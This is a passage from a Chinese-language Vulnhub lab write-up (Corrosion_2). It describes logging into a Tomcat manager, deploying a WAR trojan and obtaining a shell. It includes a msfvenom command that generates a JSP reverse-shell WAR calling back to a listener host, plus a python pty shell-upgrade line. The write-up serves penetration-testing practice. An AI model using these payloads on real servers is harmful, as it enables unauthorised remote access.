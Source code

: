 **登录tomcat后台并部署war木马项目，反弹shell**

![image-20220823204440336](vulnhub靶场.assets/image-20220823204440336.png)

~~~
#制作反弹shell

msfvenom -p java/jsp_shell_reverse_tcp  LPORT=6666 LHOST=192.168.59.10 -f war > /root/baji/Vulnhub/Corrosion_2/rever.war



~~~

![image-20220823204929987](vulnhub靶场.assets/image-20220823204929987.png)



## **漏洞利用：**

~~~
python3 -c 'import pty;pty.spawn("/bin/bash");'
~~~

**两个用户**

![image-20220823205535789](vulnhub靶场.assets/image-20220823205535789.png)
